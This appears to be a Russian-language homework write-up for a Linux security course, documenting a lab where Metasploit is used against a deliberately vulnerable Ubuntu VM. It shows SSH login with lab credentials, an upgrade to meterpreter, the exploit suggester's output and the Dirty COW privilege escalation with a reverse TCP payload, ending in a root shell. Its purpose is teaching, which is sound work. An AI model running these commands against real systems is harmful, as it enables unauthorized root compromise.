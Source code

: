 Домашние задания по курсу "Безопасность Linux"
===============================================

ДЗ 3 - dirtycow exploit - centos, ubuntu, metasploit
-----------------------------------------------

1. Centos
2. Ubuntu
3. Metasploit
- использовал материалы
https://www.offensive-security.com/metasploit-unleashed/scanner-ssh-auxiliary-modules/
https://null-byte.wonderhowto.com/how-to/get-root-with-metasploits-local-exploit-suggester-0199463/

в vagrantfile плейбуками ansible 
- поднимаем уязвимую vm nodebuntu на ubuntu 16.04 с ядром 4.4.0-42 (nodebuntu/bootstrap.yml), ip 192.168.99.102
- создаем на vm nodebuntu пользователя otus с обычными правами и паролем vic!!vak

- поднимаем vm nodeintruder на kali/rolling 2020.1 (nodeintruder/bootstrap.yml)
- копируем эксплоит (nodeintruder/msf/dirtycow_priv_exc.rb) в папку metasploit 

- заходим на nodeintruder: vagrant ssh nodeintruder
- запускаем консоль msf: msfconsole -q
- создаем сессию ssh с vm nodebuntu (192.168.99.102):
<code>
    msf5 > use auxiliary/scanner/ssh/ssh_login

    msf5 auxiliary(scanner/ssh/ssh_login) > set rhosts 192.168.99.102
    
    rhosts => 192.168.99.102
    msf5 auxiliary(scanner/ssh/ssh_login) > set username otus
    username => otus
    
    msf5 auxiliary(scanner/ssh/ssh_login) > set password vic!!vak
    
    password => vic!!vak
    
    msf5 auxiliary(scanner/ssh/ssh_login) > run

    [+] 192.168.99.102:22 - Success: 'otus:vic!!vak' ''
    [*] Command shell session 1 opened (192.168.99.103:38379 -> 192.168.99.102:22) at 2020-02-26 15:23:30 -0500
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    
    msf5 auxiliary(scanner/ssh/ssh_login) > sessions


    Active sessions
    ===============

    Id  Name  Type           Information                            Connection
    --  ----  ----           -----------                            ----------
    1         shell unknown  SSH otus:vic!!vak (192.168.99.102:22)  192.168.99.103:38379 -> 192.168.99.102:22 (192.168.99.102)
</code>

- апгрейдим сессию в meterpreter
<code>
    msf5 auxiliary(scanner/ssh/ssh_login) > sessions -u 1

    [*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

    [!] SESSION may not be compatible with this module.
    [*] Upgrading session ID: 1
    [*] Starting exploit/multi/handler
    [*] Started reverse TCP handler on 192.168.99.103:4433 
    [*] Sending stage (985320 bytes) to 192.168.99.102
    [*] Meterpreter session 2 opened (192.168.99.103:4433 -> 192.168.99.102:41734) at 2020-02-26 15:28:41 -0500
    [-] Failed to start exploit/multi/handler on 4433, it may be in use by another process.
    msf5 auxiliary(scanner/ssh/ssh_login) > sessions -l

    Active sessions
    ===============

    Id  Name  Type                   Information                                                Connection
    --  ----  ----                   -----------                                                ----------
    1         shell unknown          SSH otus:vic!!vak (192.168.99.102:22)                      192.168.99.103:38379 -> 192.168.99.102:22 (192.168.99.102)
    2         meterpreter x86/linux  uid=1001, gid=1001, euid=1001, egid=1001 @ 192.168.99.102  192.168.99.103:4433 -> 192.168.99.102:41734 (192.168.99.102)
</code>

- убедимся, что сессия запущена из под пользователя otus
<code>
    msf5 auxiliary(scanner/ssh/ssh_login) > sessions -i 2

    [*] Starting interaction with 2...

    meterpreter > shell
    Process 10451 created.
    Channel 71 created.
    id
    uid=1001(otus) gid=1001(otus) groups=1001(otus)
    exit
    meterpreter > 
    Background session 2? [y/N]  
</code>

- смотрим, что нам может посоветовать metasploit suggester в данной ситуации
<code>
    msf5 auxiliary(scanner/ssh/ssh_login) > use post/multi/recon/local_exploit_suggester 

    msf5 post(multi/recon/local_exploit_suggester) > set session 2

    session => 2

    msf5 post(multi/recon/local_exploit_suggester) > run


    [*] 192.168.99.102 - Collecting local exploits for x86/linux...
    [*] 192.168.99.102 - 35 exploit checks are being tried...
    [+] 192.168.99.102 - exploit/linux/local/bpf_sign_extension_priv_esc: The target appears to be vulnerable.
    [+] 192.168.99.102 - exploit/linux/local/dirtycow: The target appears to be vulnerable.
    [+] 192.168.99.102 - exploit/linux/local/dirtycow_priv_esc: The target appears to be vulnerable.
    [+] 192.168.99.102 - exploit/linux/local/glibc_realpath_priv_esc: The target appears to be vulnerable.
    [+] 192.168.99.102 - exploit/linux/local/network_manager_vpnc_username_priv_esc: The service is running, but could not be validated.
    [+] 192.168.99.102 - exploit/linux/local/pkexec: The service is running, but could not be validated.
    [*] Post module execution completed
</code>

- наблюдаем, среди прочего эксплоит dirtycow_priv_esc
- выбираем этот эксплоит, устанавливаем сессию, в которой запустим эксплоит, payload и параметры подключения
<code>
    msf5 post(multi/recon/local_exploit_suggester) > use exploit/linux/local/dirtycow_priv_esc

    msf5 exploit(linux/local/dirtycow_priv_esc) > set session 2

    session => 2

    msf5 exploit(linux/local/dirtycow_priv_esc) > set payload linux/x86/meterpreter/reverse_tcp

    payload => linux/x86/meterpreter/reverse_tcp

    msf5 exploit(linux/local/dirtycow_priv_esc) > set lhost 192.168.99.103

    lhost => 192.168.99.103

    msf5 exploit(linux/local/dirtycow_priv_esc) > set lport 4321

    lport => 4321
</code>

- запускаем эксплоит
<code>
    msf5 exploit(linux/local/dirtycow_priv_esc) > run

    [*] Started reverse TCP handler on 192.168.99.103:4321 
    [*] Writing '/tmp/.KvJCwYJAgaw.c' (3077 bytes) ...
    [-] Compiling failed:
    /tmp/.KvJCwYJAgaw.c: In function 'procselfmemThread':
    /tmp/.KvJCwYJAgaw.c:64:14: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [-Wint-conversion]
        lseek(f, map, SEEK_SET);
                ^
    In file included from /tmp/.KvJCwYJAgaw.c:8:0:
    /usr/include/unistd.h:337:16: note: expected '__off_t {aka long int}' but argument is of type 'void *'
    extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                    ^
    /tmp/.KvJCwYJAgaw.c: In function 'main':
    /tmp/.KvJCwYJAgaw.c:94:3: warning: implicit declaration of function 'asprintf' [-Wimplicit-function-declaration]
    asprintf(&backup, "cp %s /tmp/.mrSSZhTstx", suid_binary);
    ^
    /tmp/.KvJCwYJAgaw.c:98:3: warning: implicit declaration of function 'fstat' [-Wimplicit-function-declaration]
    fstat(f,&st);
    ^
    [*] Launching exploit...
    [*] Sending stage (985320 bytes) to 192.168.99.102
    [*] Meterpreter session 3 opened (192.168.99.103:4321 -> 192.168.99.102:60974) at 2020-02-26 15:59:13 -0500

    meterpreter > 

    [*] Setting '/proc/sys/vm/dirty_writeback_centisecs' to '0'...

    Background session 3? [y/N]  

</code>

- игнорируем ответ "compiling failed" - т.к. в выводе компилятора только предупреждения. 
- убеждаемся в успехе - смотрим открытую сессию 3, запускаем uname -a, id и т.п
<code>
    msf5 exploit(linux/local/dirtycow_priv_esc) > sessions -i 3
    
    [*] Starting interaction with 3...

    meterpreter > shell
    Process 3696 created.
    Channel 1 created.
    uname -r
    4.4.0-42-generic
    uname -a
    Linux nodebuntu 4.4.0-42-generic #62-Ubuntu SMP Fri Oct 7 23:11:45 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
    id
    uid=0(root) gid=0(root) groups=0(root),1001(otus)
    
</code>
